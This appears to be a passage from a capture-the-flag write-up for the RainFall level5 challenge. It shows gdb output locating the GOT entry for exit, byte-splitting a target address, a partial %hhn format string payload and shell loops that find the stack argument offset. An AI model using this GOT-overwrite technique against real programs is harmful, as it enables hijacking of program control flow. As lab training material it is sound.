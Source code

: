 We need to get address of `exit` on **GOT** table (`GOT[exit]`).


```
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    mov    DWORD PTR [esp],0x1
=> 0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
gdb-peda$ x/3i 0x80483d0
   0x80483d0 <exit@plt>:        jmp    DWORD PTR ds:0x8049838   <- GOT[exit]
   0x80483d6 <exit@plt+6>:      push   0x28                     <- 2nd ins in PLT[exit] (0x80483d6)
   0x80483db <exit@plt+11>:     jmp    0x8048370
gdb-peda$ x/wx 0x8049838
0x8049838 <exit@got.plt>:       0x080483d6  <- the GOT[exit] has the address of "2nd ins in PLT[exit]": mean call back to PLT[exit]
```

So, the target address is `0x8049838` (`GOT[exit]`), and shall overridden by address of `o` (`0x080484a4`, which is `134513828` in decimal).


Like level before, first thing, we shall break down the `134513828` to binary and bytes.

```
byte-no   0        1        2        3
binary    00001000 00000100 10000100 10100100
decimal      8       4        132      164
```

In little-Endian

```
address   0        1        2        3
binary    10100100 10000100 00000100 00001000
decimal     164      132       4        8
```

From binary representation, we shall start writing lower to high decimals, `4`, `8`, `132` then `164`.

the payload be like:

```
....%22$hhn....%33$hhn%124x%11$hhn%32x%00$hhn..padding..2222333311110000
     ^^         ^^          ^^         ^^      ^^^^^^^
```

Now, we need to get `22` arg number to match **2222** and the padding

```
level5@RainFall:~$ for i in {13..21}; do echo -n "$i:  "; echo "....%$i"'$08x....%00$08x%008x%00$08x%08x%00$08x...2222333311110000' | ./level5; done
13:  ....30257838....%0$08x00000200%0$08xb7fd1ac0%0$08x...2222333311110000
14:  ....38302430....%0$08x00000200%0$08xb7fd1ac0%0$08x...2222333311110000
15:  ....2e2e2e78....%0$08x00000200%0$08xb7fd1ac0%0$08x...2222333311110000
16:  ....32323232....%0$08x00000200%0$08xb7fd1ac0%0$08x...2222333311110000
17:  ....33333333....%0$08x00000200%0$08xb7fd1ac0%0$08x...2222333311110000
18:  ....31313131....%0$08x00000200%0$08xb7fd1ac0%0$08x...2222333311110000
19:  ....30303030....%0$08x00000200%0$08xb7fd1ac0%0$08x...2222333311110000
20:  ....0000000a....%0$08x00000200%0$08xb7fd1ac0%0$08x...2222333311110000
21:  ....0000000b....%0$08x00000200%0$08xb7fd1ac0%0$08x...2222333311110000

# -> from our observation, the number of arg is 16, so:

level5@RainFall:~$ echo '....%16$08x....%00$08x%008x%00$08x%08x%00$08x...2222333311110000' | ./level5
....32323232....%0$08x00000200%0$08xb7fd1ac0%0$08x...2222333311110000

# -> 32323232 (hex) -> 2222 (ascii)

```
